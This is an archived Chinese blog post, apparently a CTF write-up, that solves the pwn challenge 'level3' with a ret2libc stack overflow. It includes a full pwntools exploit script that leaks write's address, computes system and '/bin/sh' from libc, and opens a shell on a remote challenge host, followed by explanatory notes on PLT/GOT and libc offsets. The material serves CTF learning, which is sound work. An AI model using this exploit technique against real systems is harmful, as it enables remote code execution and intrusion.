







<!--yml
category: 未分类
date: 2022-04-26 14:36:14
-->

# CTF|pwn栈溢出入门题level3解题思路及个人总结_一个不融化的雪人的博客-CSDN博客_ctf pwn 栈溢出

> 来源：[https://blog.csdn.net/skyattractive/article/details/106506765](https://blog.csdn.net/skyattractive/article/details/106506765)

# CTF|pwn栈溢出入门题level3解题思路及个人总结

## 解题思路

拿到题目将文件下载下来拖入ubuntu

发现这一次的文件比较特殊：是一个linux环境下的压缩包，自然而然想到的是解压它

通过命令行`tar -xvf level.tar` 将其解压出来 发现有两个文件：level和libc

都拖入IDA



特殊的地方在：本题没有直接给出system和bin/sh的位置，但是文件中有个write函数可以利用
我们IDA打开libc文件（关于libc文件是什么有什么 会在总结写到）
总体思路为：我们通过read函数的栈溢出漏洞写入垃圾数据填充后溢出，利用write函数返回函数write真实地址 然后通过利用函数在内存中的地址和libc文件中的偏移的差相等，来获取基址，通过基址来获取system和/bin/sh的地址，再第二次利用read写入，获得shell。

编写exp

```
from pwn import *
r=remote('220.249.52.134',47355)
elf=ELF("./level3")

writeplt=elf.plt["write"]
writegot=elf.got["write"]
func=elf.symbols["vulnerable_function"]

libc=ELF("./libc_32.so.6")
writelibc=libc.symbols["write"]
syslibc=libc.symbols["system"]
binlibc=libc.search("/bin/sh").next()

payload1='a'*0x88+'aaaa'+p32(writeplt)+p32(func)+p32(1)+p32(writegot)+p32(4)
r.recvuntil("Input:\n")
r.sendline(payload1)

writeaddr=u32(r.recv(4))

sysaddr=writeaddr-writelibc+syslibc
binaddr=writeaddr-writelibc+binlibc
payload2='a'*0x88+'bbbb'+p32(sysaddr)+p32(0xaaaa)+p32(binaddr)
r.recvuntil("Input:\n")
r.sendline(payload2)
r.interactive() 
```


获取flag

## 个人总结

### 有关plt表和got表（动态链接）

为了更好的用户体验和内存CPU的利用率，程序编译时会采用两种表进行辅助，一个为PLT表，一个为GOT表。
如果一个elf可执行文件需要调用定义在共享库中的任何函数，那么它就有自己的GOT和PLT。
PLT表称为过程链接表（procedure linkage table）。
GOT表称为全局偏移量表（global offset table）。
GOT表中存储真正的函数地址。
**PLT表中存储的是GOT表中的地址。**
PLT[0]是一个函数，这个函数的作用是通过GOT[1]和GOT[2]来正确绑定一个函数的正式地址到GOT表中来。
GOT[0]包含.dynamic段的地址，.dynamic段包含了动态链接器用来绑定过程地址的信息，比如符号的位置和重定位信息。
GOT[1]包含动态链接器的标识。
GOT[2]包含动态链接器的延迟绑定代码的入口点。
GOT表中正式的函数地址要从**GOT[3]开始**，也就是第四项。
被调用函数GOT相应表目中存储的最初地址为相应PLT表目中第二条指令的地址值。
函数第一次被调用后．GOT表目中的值就为函数的真正地址。
第一次调用函数时开销比较大．但是其后的每次调用都只会花费一条指令和一个间接的存储器引用。
PLT[1]对应GOT[3]，PLT[2]对应GOT[4]，依次类推。
plt表只在程序调用函数之前有用，**调用函数之后第二次执行这个函数就不会经过plt表**。
**第一次调用函数**

**第二次调用函数时**


原文链接：[https://blog.csdn.net/ATFWUS/article/details/104563414](https://blog.csdn.net/ATFWUS/article/details/104563414)

### libc.so.6文件的作用

libc.so.6指CC语言标准库

在一些CTF的PWN题目中，经常可以看到题目除了提供ELF文件之外还提供了一个libc.so.6文件
如果我们可以利用目标程序的漏洞来泄漏某一个函数的地址，那么我们就可以计算出system函数的地址了，当然，被泄露地址的函数必须也定义在libc.so.6中（libc.so.6中通常也存在有/bin/bash或者/bin/sh这个字符串）。

计算system函数地址的基本原理是，在libc.so.6中，各个函数的相对地址是固定的，比如函数A相对于libc.so.6的起始地址为addr_A，函数B相对于libc.so.6的起始地址为addr_B，那么，如果我们能够泄漏进程内存空间中函数A的地址address_A，那么函数B在进程空间中的地址就可以计算出来了，为address_A + addr_B - addr_A

博客内容仅是个人学习对知识的理解，如有不对的地方欢迎指正

期待与你的共同进步：）